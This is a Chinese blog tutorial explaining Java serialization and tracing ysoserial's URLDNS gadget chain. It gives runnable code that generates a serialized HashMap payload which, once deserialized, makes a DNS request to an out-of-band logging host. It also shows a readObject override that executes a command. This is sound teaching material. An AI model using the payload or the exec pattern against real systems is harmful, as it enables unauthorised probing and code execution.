## 前言


java反序列化也算是个老生常谈的话题了，近年来就java反序列化问题出现过不少的漏洞，如shiro反序列化，fastjson反序列化等。说起java反序列化的漏洞利用，那么不得不提一个工具`ysoserial`。


> 反序列化漏洞在各个语⾔⾥本不是⼀个新鲜的名词，但2015年Gabriel Lawrence (@gebl)和ChrisFrohoff (@frohoff)在AppSecCali上提出了利⽤Apache Commons Collections来构造命令执⾏的利⽤链，并在年底因为对Weblogic、JBoss、Jenkins等著名应⽤的利⽤，⼀⽯激起千层浪，彻底打开了⼀⽚Java安全的蓝海。  
> ⽽ysoserial就是两位原作者在此议题中释出的⼀个⼯具，它可以让⽤户根据⾃⼰选择的利⽤链，⽣成反序列化利⽤数据，通过将这些数据发送给⽬标，从⽽执⾏⽤户预先定义的命令。-- 来自<<java安全漫谈>>


在`ysoserial`中有一个gatget叫做URLDNS,这条链不依赖于任何组件，可以方便的探测是否存在Java反序列化漏洞。


它有以下几个特点：

- URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
- 不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
- 目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞

这篇文章就从URLDNS来展开说说java反序列化和这条链执行的过程。


## 序列化与反序列化


序列化：就是将对象转化成字节序列的过程。
反序列化：就是讲字节序列转化成对象的过程。


java为我们提供了对象序列化的机制，规定了要实现序列化对象的类要满足的条件和实现方法。


对于要序列化对象的类要去实现`Serializable`接口或者`Externalizable`接口


类 `ObjectInputStream` 和 `ObjectOutputStream` 是高层次的数据流，它们包含反序列化和序列化对象的方法。


`ObjectOutputStrea`m 类包含很多写方法来写各种数据类型，但是一个特别的方法例外：


```java
public final void writeObject(Object x) throws IOException
```


上面的方法序列化一个对象，并将它发送到输出流。相似的 `ObjectInputStream` 类包含如下反序列化一个对象的方法：


```java
public final Object readObject() throws IOException, ClassNotFoundException
```


也就是说在反序列化时会执行`readObject`方法里面定义的内容。


> `readObject`方法是可以被重写的，当重写的`readObject`方法中包含了如代码执行等可控点，就可以执行反序列化攻击了，但是有谁会这么傻呢，将危险并且可控的函数写在`readObject`方法里。所以需要不断在代码（组件）中去寻找可以“影响”到`readObject`方法里面的某个函数，进而通过链式调用达到命令执行或其它操作的目的。


**几个注意点：**

1. 一个对象要进行序列化，如果该对象成员变量是引用类型的，那这个引用类型也一定要是可序列化的，否则会报错
2. 同一个对象多次序列化成字节序列，这多个字节序列反序列化成的对象还是一个（使用==判断为true）（因为所有序列化保存的对象都会生成一个序列化编号，当再次序列化时回去检查此对象是否已经序列化了，如果是，那序列化只会输出上个序列化的编号）
3. 如果序列化一个可变对象，序列化之后，修改对象属性值，再次序列化，只会保存上次序列化的编号（这是个坑注意下）
4. 对于不想序列化的字段可以再字段类型之前加上transient关键字修饰（反序列化时会被赋予默认值）

**serialVersionUID的作用**


在进行序列化时，会把当前类的`serialVersionUID`写入到字节序列中（也会写入序列化的文件中），在反序列化时会将字节流中的`serialVersionUID`同本地对象中的`serialVersionUID`进行对比，一致的话进行反序列化，不一致则失败报错（报InvalidCastException异常）。


`serialVersionUID`的生成有三种方式`（private static final long serialVersionUID= XXXL ）`：

- 显式声明：默认的1L
- 显式声明：根据包名、类名、继承关系、非私有的方法和属性以及参数、返回值等诸多因素计算出的64位的hash值
- 隐式声明：未显式的声明serialVersionUID时java序列化机制会根据Class自动生成一个serialVersionUID（最好不要这样，因为如果Class发生变化，自动生成的serialVersionUID可能会随之发生变化，导致匹配不上）

### 举个例子


写个学生类：


```java
package code;

import java.io.Serializable;

public class Student implements Serializable {
    private int age;
    private String name;

    public Student() {
        age = 20;
        name = "张三";
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    @Override
    public String toString() {
        return "Student{" +
                "age=" + age +
                ", name='" + name + '\'' +
                '}';
    }
}
```


把学生类进行序列化：


```java
package code;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class SerializeDemo {
    public static void main(String[] args) throws IOException {
        Student student = new Student();
        FileOutputStream fileOutputStream = new FileOutputStream("student.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(student);
        objectOutputStream.close();
        fileOutputStream.close();
        System.out.println("序列化数据写入成功！");
    }
}
```


看下序列化后的文件内容：





可以看到前两个字节为`AC` `ED`,这也是java序列化数据的一个明显标志。


把学生类进行反序列化：


```java
package code;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UnSerializeDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream("student.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object o = objectInputStream.readObject();
        objectInputStream.close();
        fileInputStream.close();
        System.out.println(o);
    }
}
```





把学生类的`readObject`方法进行重写：


```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        Runtime.getRuntime().exec("calc");
    }
```


然后执行反序列化时就会触发命令执行函数





这个例子说明反序列化漏洞的触发点就在`readObject`这个函数上，接下来分析的URLDNS链也会从`readObject`上开始。


所以我们总结下可能造成反序列化漏洞的条件：

1. 入口类的`readObject`函数直接调用危险方法
2. 入口类的参数包含可控类，该类有危险方法并且`readObject`函数会调用它
3. 入口类的参数包含可控类，该类又调用其它有危险方法的类并且`readObject`函数会调用它

## URLDNS链


java集合中有一个Map集合比较特殊，它的key 和 value 都可以是任何引用类型的数据，包括对象。那么他就很符合上面我们提到的造成反序列化漏洞额条件的第二点，入口类的参数可控并且可以是任意类和对象。


Map是一个接口，它有很多实现类，其中一个实现类为HashMap,它继承了Serializable,说明HashMap类是可以被序列化的。


```java
public class HashMap<K,V> extends AbstractMap<K,V>
    implements Map<K,V>, Cloneable, Serializable
```


HashMap类中也重写了`readObject`方法：





这里也留意下其中调用了`putVal`函数和`hash`函数





回到URLDNS这边，这条链的调用关系是这样的：


```text
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```


在分析时需要从后往前，先看下`URL`这个类，它其中有一个hashcode方法，我们先调用这个方法看下效果：


```java
package com.test;

import java.net.MalformedURLException;
import java.net.URL;

public class UrlTest {

    public static void main(String[] args) throws MalformedURLException {

        URL url = new URL("http://pbyd.fuzz.red");
        int i = url.hashCode();

    }

}
```


当运行时dns平台会收到结果





进入到hashcode函数中发现其调用了`handler.hashCode`.





跟到`handler.hashCode`中，发现其调用了`getHostAddress`函数





`getHostAddress`函数的作用就是解析域名，在解析域名时就会触发DNS请求。


那么现在关键的函数就是`hashCode`了，我们需要寻找哪个类的`readObject`方法中调用了`hashCode`或者间接调用了`hashCode`函数，前面以及分析过了，在HashMap类中的`readObject`方法调用了`putVal`函数和`hash`函数，跟到`hash`函数中发现其调用了`hashCode`函数。





那么现在就清晰了，整个过程时这样的：


**java.util.HashMap实现了Serializable接口，重写了readObject, 在反序列化时会调用hash函数计算key的hashCode，而java.net.URL的hashCode在计算时会调用getHostAddress来解析域名, 从而发出DNS请求。**


画个图比较清晰：





接下来就是代码实现了：


```java
package code;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {

    public static void main(String[] args) throws Exception {
        HashMap hashmap = new HashMap();
        URL url = new URL("http://6ixtjn.ceye.io");
        hashmap.put(url, 1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


但是这里有一个问题，就是我们还未执行反序列化时就已经进行了DNS请求。





因为在hashmap的put函数中已经调用了一次hashcode函数。








这就导致了我们无法确认到底是反序列化时触发的DNS请求，还是在序列化hashmap类时，其put函数导致触发的DNS请求。


跟进到URL类中的`hashCode`函数：





可以看到当`hashCode`的值为-1时才会进入到`handler.hashCode`函数中执行请求。


**由于hashCode的值默认为-1，所以我们需要借助反射，修改它的值不为-1，让其在反序列化时不发起请求，在put后再把hashCode的值改为-1，让其在反序列化时能够发起请求，这样就可以确定反序列化漏洞是否存在了。**


> 关于反射的问题，可以去看下我之前发的这篇文章:[java安全-java反射](https://darkless.cn/2021/10/22/java-sec-java-reflect/)


那我们在之前代码的基础上进行一个修改：


```java
package code;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {

    public static void main(String[] args) throws Exception {
        HashMap hashmap = new HashMap();
        URL url = new URL("http://6ixtjn.ceye.io");
        //反射获取url Class
        Class<? extends URL> urlClass = url.getClass();
        //获取hashCode字段
        Field field = urlClass.getDeclaredField("hashCode");
        //由于hashCode是私有属性，所以需要绕过权限控制检查
        field.setAccessible(true);
        //设置hashCode的值为1，让其在put的时候不去进行DNS请求
        field.set(url,1);
        hashmap.put(url, 1);
        //put后再把hashCode的值改为-1，让其能够在反序列化时进行DNS请求
        field.set(url,-1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


注意看代码中的注释即可。


然后在反序列化，即可触发DNS请求。


```java
package code;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UnSerializeDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream("urldns.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object o = objectInputStream.readObject();
        objectInputStream.close();
        fileInputStream.close();
    }
}
```





支持整个URLDNS链就分析完了，这条链相对来说是比较简单的，但也有许多需要注意的点，ysoserial中其它链的分析思路也是这样的。


## 后记


不得不说ysoserial整个工具中的gadget非常巧妙且有深度，对java反序列化的学习还需继续加油啊！


参考文章：

- [URLDNS链&CommonsCollections链详细分析](https://www.anquanke.com/post/id/261724)
- [Java Map集合详解](http://c.biancheng.net/view/6868.html)
- [Java反射+URLDNS链](https://www.bilibili.com/video/BV16h411z7o9?p=2)
